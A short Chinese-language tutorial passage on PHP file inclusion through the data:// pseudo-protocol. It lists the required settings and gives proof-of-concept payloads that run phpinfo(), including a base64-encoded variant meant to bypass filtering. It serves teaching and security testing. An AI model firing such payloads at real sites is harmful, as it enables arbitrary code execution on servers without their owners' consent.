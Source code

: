 ![7f04b0e59fda44cdb669d99fa315410b](./img/7f04b0e59fda44cdb669d99fa315410b.png)



## 4.data://协议

~~~ tex
data:// 同样类似与php://input，可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。从而导致任意代码执行。

利用data:// 伪协议可以直接达到执行php代码的效果，例如执行phpinfo()函数：
~~~

**利用条件:**

+ allow_url_fopen ：on
+ allow_url_include：on



POC为:

~~~ shell
data://text/plain,<?php phpinfo();?>
//如果此处对特殊字符进行了过滤，我们还可以通过base64编码后再输入：
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
~~~

![fdf0d4eb7b9f4b40b4e22b6990162cb8](./img/fdf0d4eb7b9f4b40b4e22b6990162cb8.png)
